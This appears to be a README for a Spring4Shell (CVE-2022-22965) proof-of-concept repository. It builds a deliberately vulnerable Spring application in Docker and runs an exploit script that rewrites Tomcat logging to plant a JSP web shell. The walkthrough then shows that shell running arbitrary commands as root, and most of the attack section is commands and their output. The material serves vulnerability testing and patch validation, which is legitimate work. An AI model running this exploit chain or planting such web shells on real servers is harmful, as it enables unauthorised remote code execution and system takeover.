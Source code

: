 

# CVE-2022-22965 (Spring4Shell) Proof of Concept

![](img/spring4shell-logo.png)

## Test the RCE (Remote Code Execution) in Spring Core​

### Build the image

BuildKit based build is required so you need to enable it.

Easiest way is to set the **DOCKER_BUILDKIT=1** environment variable when invoking the docker build command, such as:

```console
$ DOCKER_BUILDKIT=1 docker build -f Dockerfile.core . -t spring4shell-core && docker run --rm -p 8080:8080 spring4shell-core
```
Otherwise to enable docker BuildKit by default, set daemon configuration in _/etc/docker/daemon.json_ feature to true and restart the daemon:

```json
{ "features": { "buildkit": true } }
```
This way you can execute simply

```console
$ docker build -f Dockerfile.core . -t spring4shell-core && docker run --rm -p 8080:8080 spring4shell-core
```

### Test the vulnerable application

```console
$ curl localhost:8080/spring4shell/exploitme
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Spring4Shell PoC Spring Application</title>
</head>
<body>
    Hello World! Exploit me!
</body>
</html>
```

### Run the exploit

```console
$ python3 exploit-core.py --url "http://localhost:8080/spring4shell/exploitme" --file shell
[*] Resetting Log Variables.
[*] Response code: 200
[*] Modifying Log Configurations
[*] Response code: 200
[*] Response Code: 200
[*] Resetting Log Variables.
[*] Response code: 200
[+] Exploit completed
[+] Check your target for a shell
[+] File: shell.jsp
[+] Shell should be at: http://localhost:8080/shell.jsp?cmd=id
```

If everything went right, execute arbitrary commands in the container through the Tomcat HTTP port, such as:

```console
$ curl http://localhost:8080/shell.jsp\?cmd\=id --output -
uid=0(root) gid=0(root) groups=0(root)

//
```

```console
$ curl http://localhost:8080/shell.jsp\?cmd\=whoami --output -
root

//
```

```console
$ curl http://localhost:8080/shell.jsp\?cmd\=cat%20/etc/issue --output -
Debian GNU/Linux 11 \n \l


//
```


